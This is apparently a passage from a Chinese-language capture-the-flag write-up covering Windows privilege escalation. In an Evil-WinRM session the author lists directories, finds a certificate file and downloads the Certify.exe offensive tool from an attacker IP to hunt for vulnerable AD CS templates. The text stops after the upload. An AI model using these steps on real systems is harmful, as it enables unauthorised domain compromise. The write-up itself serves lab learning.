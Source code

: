 
## Privilege Escalation

### 探索

因为之前在SMB发现ansible里有ADCS文件夹，而在靶机C盘也发现名为 `Certs` 的目录，应该可以使用 `certify` 工具搜索易受攻击的证书。

```powershell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/23/2023   6:16 PM                Certs
d-----        3/28/2023   1:59 PM                Department Shares
d-----        3/17/2023   9:20 AM                Development
d-----         8/9/2022   7:00 PM                inetpub
d-----        3/24/2023   8:22 PM                PerfLogs
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----        7/20/2023  11:52 AM                pwm
d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar

*Evil-WinRM* PS C:\Certs> dir


    Directory: C:\Certs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/23/2023   6:11 PM           4933 LDAPs.pfx
```

### CA模板漏洞

#### Certify搜索漏洞模板

在<https://github.com/r3motecontrol/Ghostpack-CompiledBinaries>可下载编译好的 `Certify.exe`，上传到目标机。
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> wget 10.10.14.106:80/Certify.exe -OutFile Certify.exe
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> dir


    Directory: C:\Users\svc_ldap\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/20/2023  12:18 PM         174080 Certify.exe
```
